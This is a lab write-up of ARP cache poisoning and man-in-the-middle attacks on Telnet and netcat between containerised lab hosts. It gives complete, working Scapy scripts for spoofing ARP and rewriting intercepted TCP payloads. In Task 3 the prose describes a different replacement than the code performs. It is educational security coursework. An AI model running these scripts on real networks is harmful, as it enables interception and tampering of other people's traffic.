###### [Lab Link](https://seedsecuritylabs.org/Labs_20.04/Networking/ARP_Attack/).

---

### Machine Configurations

#### Host M (Attacker)

###### IP : `10.9.0.105`
###### MAC: `02:42:0a:09:00:69`
#### Host A

###### IP : `10.9.0.5`
###### MAC: `02:42:0a:09:00:05`

#### Host B

###### IP : `10.9.0.6`
###### MAC: `02:42:0a:09:00:06`

---
## Task 1: ARP Cache Poisoning
### Task 1.A: ARP Request

> We need to poison the ARP cache of the host A. 

In the cache of host A, instead of pointing to IP of Host B with its correct MAC address B, it will instead be mapped to the MAC of host M.

We can do that by constructing an ARP request packet from host M. It's SRC MAC and SRC IP are the ones that will be saved in host A's cache, so we should place there the values we want spoofed (B IP AND M MAC).

```python
from scapy.all import *

A_IP = "10.9.0.5"
B_IP = "10.9.0.6"
M_IP = "10.9.0.105"

A_MAC = "02:42:0a:09:00:05"
B_MAC = "02:42:0a:09:00:06"
M_MAC = "02:42:0a:09:00:69"

# Ethernet layer. Sending a packet from M to A.
E = Ether(src=M_MAC, dst= A_MAC)

# ARP layer. Sending a packet from M to A with B IP AND M MAC.
A = ARP(hwsrc=M_MAC, psrc=B_IP, hwdst=A_MAC, pdst=A_IP, op=1)

pkt = E/A
sendp(pkt, iface="eth0")
```
> `op=1` means this is an ARP request.
> The `iface=eth0` is the network interface that these hosts are communicating on. Can be obtained using the `ifconfig` command.

Prior to executing this script, the cache tables of all the hosts were empty.

After executing the script, we see that on host A, we got a packet. Opening the ARP cache, we see that it maps the IP of host B to the MAC address of the attacker (host M).



Therefore, we successfully poisoned the cache of host A.

> If we ping from Host A to Host B, the attack seems to have failed. As the packets are sent to B and not to M. What actually happens is that the packets are first sent to M, but M sees that the destination IP is actually B. M is configured by default to forward packets to the correct host, so if we close IP forwarding on host M, the packets stay at M and are not forwarded to B.
```bash
sysctl net.ipv4.ip_forward=0
```

Now, if we try and ping host B from host A, the packets are all sent to host M, and the attack succeeds.

### Task 1.B: ARP Reply

> We need to posion the ARP cache of host A.

Similar to the above task, we send an ARP reply message with SRC IP of B and SRC MAC of M. This spoofed data will poison the ARP cache of host A.

```python
from scapy.all import *

A_IP = "10.9.0.5"
B_IP = "10.9.0.6"
M_IP = "10.9.0.105"

A_MAC = "02:42:0a:09:00:05"
B_MAC = "02:42:0a:09:00:06"
M_MAC = "02:42:0a:09:00:69"

# Ethernet layer. Sending a packet from M to A.
E = Ether(src=M_MAC, dst= A_MAC)

# ARP layer. Sending a packet from M to A with B IP AND M MAC.
A = ARP(hwsrc=M_MAC, psrc=B_IP, hwdst=A_MAC, pdst=A_IP, op=2)

pkt = E/A
sendp(pkt, iface="eth0")
```
> `op=2` for reply.

###### Scenario 1: B IP in A's Cache

To place B Ip in A cache, we can send a ping packet. Viewing A's cache table after, we see that B is mapped to its correct MAC.



Now, if we send the packet using the python script above, we see that the cache table gets updated, and the MAC address for B's IP is changed to MAC M, that of the attacker.



###### Scenario 2: B IP not in A's Cache

Sending the packet to A with the ARP cache empty does nothing, and the attack doesn't work. The ARP table remains empty.

> Therefore, we can conclude that ARP replies aren't accepted by tables if there is no entry already for that IP address in the table.

> The same conclusion is made regarding IP forwarding as Task 1.A.

### Task 1.C: ARP Gratuitous Messages

> This attack poisons the cache of all the hosts on the network, so both host A and host B recieve this message.

This type of message goes into the network and tells everyone that it is the machine with IP B, and to reach me, use MAC M. This type can only update the entries in a cache table, not add new ones.

```python
from scapy.all import *

A_IP = "10.9.0.5"
B_IP = "10.9.0.6"
M_IP = "10.9.0.105"

A_MAC = "02:42:0a:09:00:05"
B_MAC = "02:42:0a:09:00:06"
M_MAC = "02:42:0a:09:00:69"
broadcast_MAC = "ff:ff:ff:ff:ff:ff"

# Ethernet layer. Sending a packet from M to A.
E = Ether(src=M_MAC, dst= broadcast_MAC)

# ARP layer. Sending a packet from M to A with B IP AND M MAC.
A = ARP(hwsrc=M_MAC, psrc=B_IP, hwdst=broadcast_MAC, pdst=B_IP, op=2)

pkt = E/A
sendp(pkt, iface="eth0")
```

###### Scenario 1: B IP in A's Cache

To place B Ip in A cache, we can send a ping packet. Viewing the cache table after, we see that B is mapped to its correct MAC.


Now, if we send the packet using the python script above, we see that the cache table gets updated, and the MAC address for B's IP is changed to MAC M, that of the attacker.


###### Scenario 2: B IP not in A's Cache

Sending the packet to A with the ARP cache empty does nothing, and the attack doesn't work. The ARP table remains empty.

> Hence, we see that the attack does succeed in poisoning the ARP cache only if there exists an entry in the table.

> The same issue with forwarding is encountered after.

---

## Task 2: MITM Attack on Telnet using ARP Cache Poisoning

### Step 1: Poison the Cache of A and B

In order to become the man in the middle, we need to convince A that the attacker is B, and convince B that the attacker is A. This can be done using cache poisoning, using the ARP request method, since it doesn't require that the cache have an entry beforehand.

> Sending two packets:

1. Packet sent to A:
```python
from scapy.all import *

A_IP = "10.9.0.5"
B_IP = "10.9.0.6"
M_IP = "10.9.0.105"

A_MAC = "02:42:0a:09:00:05"
B_MAC = "02:42:0a:09:00:06"
M_MAC = "02:42:0a:09:00:69"

# Ethernet layer. Sending a packet from M to A.
E = Ether(src=M_MAC, dst= A_MAC)

# ARP layer. Sending a packet from M to A with B IP AND M MAC.
A = ARP(hwsrc=M_MAC, psrc=B_IP, hwdst=A_MAC, pdst=A_IP, op=1)

pkt = E/A
sendp(pkt, iface="eth0")
```

Viewing A's cache:


> Its pointing IP B to MAC M.

2. Packet sent to B:
```python
from scapy.all import *

A_IP = "10.9.0.5"
B_IP = "10.9.0.6"
M_IP = "10.9.0.105"

A_MAC = "02:42:0a:09:00:05"
B_MAC = "02:42:0a:09:00:06"
M_MAC = "02:42:0a:09:00:69"

# Ethernet layer. Sending a packet from M to B.
E = Ether(src=M_MAC, dst= B_MAC)

# ARP layer. Sending a packet from M to B with A IP AND M MAC.
A = ARP(hwsrc=M_MAC, psrc=A_IP, hwdst=B_MAC, pdst=B_IP, op=1)

pkt = E/A
sendp(pkt, iface="eth0")
```

Viewing B's cache:


> Its pointing IP A to MAC M.

Now that we have successfully placed M in the middle, we can start sending packets from A to B.

### Step 2: Test (IP Forwarding Off)

Testing our attack, we can now turn off IP forwarding on host M so that the packets destined to reach B from A stop at M, and the packets destined to reach A from B stop at M.

```bash
sysctl net.ipv4.ip_forward=0
```
> On host M.

Now, we can try and ping B from A, while opening `tcpdump` on all 3 machines.

* Host A:



> We see that the packet was sent out from host A.

* Host B:



> We see that nothing reached B.

* Host M:



> We see that we got the packet that was destined for IP `10.9.0.6`, but it arrived at host M.

Therefore, the attacker machine was placed in the middle, and captured the ping request from A to B. The opposite case is also the same, pinging from B to A.

Carrying out the same procedure but on TELNET, we connect as client from host A to server on host B.

```bash
telnet 10.9.0.6
```
> Entering `seed` for username and `dees` for password, we are now connected via TELNET from A to B.

If the ARP cache of A is poisoned and it points to the attacker, anything i type in the telnet terminal will not appear. This is because it is captured by M, and since IP forwarding is off, it stays at M.

> This is explained by telnet nature, as any character that is typed is sent to the server, and then sent back to the client to appear on the screen. Since the server is supposed to be B but it is M, M captures the packets, and doesn't send them back to the telnet client.

### Step 3: Test (IP Forwarding On)

With forwarding on, anything that is typed into the console will appear in the console. The attacker M simply acts a man in the middle that can sniff all the traffic, and then forwards it to the server. The server then performs its duties, and returns it to the attacker in the middle. The attacker then forwards it back to the client.

> Hence, to properly complete the attack, we need to turn off IP forwarding. We also need to act as both server and client to decieve both parties.

### Step 4: Launching the Attack

1. Poison the cache entries of A and B from host M. (Step 1).
2. Connect via telnet from host A to host B.
3. Turn off IP Forwarding on host M.
```
sysctl net.ipv4.ip_forward=0
```

4. Write code that sniffs packets sent by either A or B. If it is generated by A, then it needs to be spoofed. If it is generated by B, then it needs to be sent back to A.

```python
from scapy.all import *

A_IP = "10.9.0.5"
B_IP = "10.9.0.6"
M_IP = "10.9.0.105"

A_MAC = "02:42:0a:09:00:05"
B_MAC = "02:42:0a:09:00:06"
M_MAC = "02:42:0a:09:00:69"

def spoof_pkt(pkt):
    # listen for packets. If a packet is going from A to B, then spoof.
    if pkt[IP].src == A_IP and pkt[IP].dst == B_IP and pkt[Ether].src != M_MAC:
        # create a new packet but remove checksums and TCP payload.
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].payload)
        del(newpkt[TCP].chksum)
        
        if pkt[TCP].payload:
            data = pkt[TCP].payload.load
            # replace every character with a Z.
            data_list = list(data)
            for i in range(len(data_list)):
                data_list[i] = ord('Z')
            newdata = bytes(data_list)
            send(newpkt/newdata)
        else:
            send(newpkt)
    # if a packet is going from B to A, then send it to A.
    elif pkt[IP].src == B_IP and pkt[IP].dst == A_IP and pkt[Ether].src == M_MAC:
        
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].payload)
        send(newpkt)

# captures only packets that are not sent by the attacker.
f = f"ip host {A_IP} or ip host {B_IP} and not ip host {M_IP} and not ether src {M_MAC}"
pkt = sniff(iface="eth0", filter=f, prn=spoof_pkt)
```

5. Executing this code, it changes any character sent to a `Z`. This can be seen via wireshark:

* Client types `a` in terminal. Client has IP `10.9.0.5` and is host A. Server has IP `10.9.0.6` and is host B.



What we see here is that the packet is being sent from host A to host B via IPs, but via MACs, we see that it is sent from A to M. M then takes this packet using our script, changes the data to Z, and forwards it to the server.

* Checking the response, which is what appears on the client terminal.



We see that the packet is being sent from host B to host A via IPs, but via MAC, it is sent from host B to M. What this is saying is that the server responds back with data `Z` to the attacker, not the client. The attacker then forwards that packet to the client, host A, using our script.

> After every single packet sent, the ARP cache resets. We need to poison the cache by repeating the first step again.

---

## Task 3: MITM Attack on Netcat Using ARP Cache Poisoning

To perform the MITM, we do the same steps. We first start the connection between both, then poison their caches. Once their caches are poisoned, whenever the client wants to talk to the listener, the data will pass through the attacker first. The attacker can then spoof the data, then forward it to the server. The attacker should have forwarding off to ensure the packets arent forwarded before they are spoofed.

1. Close off IP forwarding on the attacker machine.
2. Connect via netcat from host A to host B (listener).
```bash
nc -nlvp 9090
```
> This is the listener: Host B.

```bash
nc 10.9.0.6 9090
```
> This is the connector: Host A.

3. Poison the cache entries of A and B. Same as the telnet attack.
4. Write this script that replaces the word `telnet` with `ZZZZZ`. Has the same functionality as the telnet script.
```python
from scapy.all import *

A_IP = "10.9.0.5"
B_IP = "10.9.0.6"
M_IP = "10.9.0.105"

A_MAC = "02:42:0a:09:00:05"
B_MAC = "02:42:0a:09:00:06"
M_MAC = "02:42:0a:09:00:69"


def spoof_pkt(pkt):
    if pkt[IP].src == A_IP and pkt[IP].dst == B_IP and pkt[TCP].payload:
        data = pkt[TCP].payload.load
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].payload)
        del(newpkt[TCP].chksum)
        print("Data: ", data)
        if b'menu' in data:
            newdata = data.replace(b'menu', b'AAAA')
            newpkt = newpkt/newdata
            send(newpkt)
        else:
            send(newpkt/data)
    elif pkt[IP].src == B_IP and pkt[IP].dst == A_IP:
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].chksum)
        send(newpkt)

# captures only packets that are not sent by the attacker.
f = f"ip host {A_IP} or ip host {B_IP} and not ip host {M_IP} and not ether src {M_MAC} and not arp and not icmp and tcp"
pkt = sniff(iface="eth0", filter=f, prn=spoof_pkt)
```

5. Executing this code, we see that it works:



This can be explained using these wireshark screenshots.

* Typing in `telnet` at the client.



We see that the data should transmit from host A to host B normally via IPs, but via MAC, it goes from host A to the attacker host M. Here, our script takes the data and plays with it.

* The packet sent by our script from host M to host B, the server.



We see that the data is now `ZZZZZ`, and that it should go via IP from host A to host B, from client to server. However, it is going via MAC from host M, the attacker, to host B, the server. This completes the man in the middle attack.

---
